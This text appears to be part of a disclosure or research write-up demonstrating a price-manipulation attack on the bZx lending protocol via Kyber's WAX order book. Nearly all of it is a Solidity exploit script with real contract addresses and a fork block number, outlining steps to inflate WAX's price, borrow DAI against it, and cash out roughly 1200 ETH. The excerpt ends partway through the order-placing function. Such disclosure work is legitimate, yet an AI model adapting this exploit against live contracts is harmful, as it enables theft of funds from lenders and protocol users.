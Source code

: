 ### **Demo**

The following script will turn a profit of approximately 1200ETH by:

1. Listing an order buying 1 WAX for 10 ETH, increasing the price from 0.00ETH/WAX to 10ETH/WAX
2. Borrowing DAI from bZx using WAX as a collateral
3. Cancelling all orders and converting all assets to ETH

```text
contract BZxWAXExploit is Script, Constants, TokenHelper, BZxHelpers {
    BZxLoanTokenV2Like private constant BZX_DAI = BZxLoanTokenV2Like(0x14094949152EDDBFcd073717200DA82fEd8dC960);
    
    ERC20Like private constant WAX = ERC20Like(0x39Bb259F66E1C59d5ABEF88375979b4D20D98022);
    OrderbookReserveLike private constant WAX_ORDER_BOOK = OrderbookReserveLike(0x75fF6BeC6Ed398FA80EA1596cef422D64681F057);
    
    uint constant private INITIAL_BALANCE = 150 ether;
    
    function setup() public {
        name("bzx-wax-exploit");
        blockNumber(8455720);
    }
    
    function run() public {
        begin("exploit")
            .withBalance(INITIAL_BALANCE)
            .first(this.checkRates)
            .then(this.makeOrder)
            .then(this.checkRates)
            .then(this.borrow)
            .then(this.cleanup)
            .finally(this.checkProfits);
    }
    
    uint constant rateCheckAmount = 1e8;
    
    function checkRates() external {
        (uint rate, uint slippage) = KYBER_NETWORK.getExpectedRate(WAX, KYBER_ETH, rateCheckAmount);
        printf("checking rates tokens=%.8u rate=%.18u slippage=%.18u\n", abi.encode(rateCheckAmount, rate, slippage));
    }
    
    uint constant waxBidAmount = 1e8;
    uint constant ethOfferAmount = 10 ether;
    uint32 private orderId;
    function makeOrder() external {
        orderId = WAX_ORDER_BOOK.ethToTokenList().nextFreeId();
        
        uint kncRequired = WAX_ORDER_BOOK.calcKncStake(ethOfferAmount);
        printf("making malicious order kncRequired=%.u\n", abi.encode(KNC.decimals(), kncRequired));
        
        KNC.getFromUniswap(kncRequired);
        WAX.getFromBancor(1 ether);
        
        WAX.approve(address(WAX_ORDER_BOOK), waxBidAmount);
        KNC.approve(address(WAX_ORDER_BOOK), kncRequired);
        
        WAX_ORDER_BOOK.depositEther.value(ethOfferAmount)(address(this));
        WAX_ORDER_BOOK.depositToken(address(this), waxBidAmount);
        WAX_ORDER_BOOK.depositKncForFee(address(this), kncRequired);
```